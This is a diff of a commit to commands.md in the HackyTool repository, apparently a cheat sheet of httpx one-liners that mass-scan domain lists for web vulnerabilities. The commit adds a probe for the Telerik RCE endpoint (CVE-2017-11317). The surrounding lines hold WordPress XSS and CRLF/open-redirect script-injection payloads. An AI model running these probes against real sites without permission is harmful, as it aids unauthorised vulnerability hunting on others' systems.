

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/commands.md
+++ b/commands.md
@@ -15,6 +15,9 @@
 ## wordpressXss:
     cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200
 
+## Telerik RCE(CVE-2017-11317)
+    cat domain.txt | httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms "message" -t 200 -mc 200
+
 
 ## Open Redirect
     cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt
```
